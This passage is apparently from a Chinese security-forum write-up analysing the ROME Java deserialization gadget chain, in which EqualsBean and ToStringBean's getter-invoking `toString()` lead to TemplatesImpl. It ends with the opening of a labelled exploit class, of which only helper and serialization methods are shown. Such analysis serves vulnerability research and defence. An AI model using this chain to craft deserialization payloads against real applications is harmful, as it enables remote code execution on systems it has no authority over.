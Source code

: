 调用 EqualsBean 中保存的 `_obj`​ 的 `toString()`​ 方法

​![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-79fa93fba3202c5f6fd9dba3abf7f1e326c6d0e1.png)​

‍

而这个 `toString()`​ 方法也就是触发利用链的地方，继 BadAttributeValueExpException 之后的另一个使用 `toString()`​ 方法触发利用的链。

‍

### ToStringBean

​`com.sun.syndication.feed.impl.ToStringBean`​ 类从名字可以看出，这个类给对象提供 toString 方法，类中有两个 toString 方法，第一个是无参的方法。获取调用链中上一个类或 `_obj`​ 属性中保存对象的类名，并调用第二个 toString 方法。

​![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-d1091fb11e30c2533eb7c3ff9e4083a50b3b9f06.png)​

‍

然后这个有参方法会调用 `BeanIntrospector.getPropertyDescriptors()`​ 来获取 `_beanClass`​ 的全部 getter/setter 方法，然后判断参数长度为 0 的方法使用 `_obj`​ 实例进行反射调用，翻译成人话就是会调用所有 getter 方法拿到全部属性值，然后打印出来。

​![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-9458670d536b737b61ad5ea850cfc0ff16d9cbfa.png)​

由此可见，ToStringBean 的 `toString()`​ 方法可以触发其中 `_obj`​ 实例的全部 getter 方法，可以用来触发 TemplatesImpl 的利用链。

‍

‍

EXP

```java
package ROME;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;

public class Rome {

    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void  serialize(Object obj) throws IOException {
        ObjectOutputStream oos =new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

```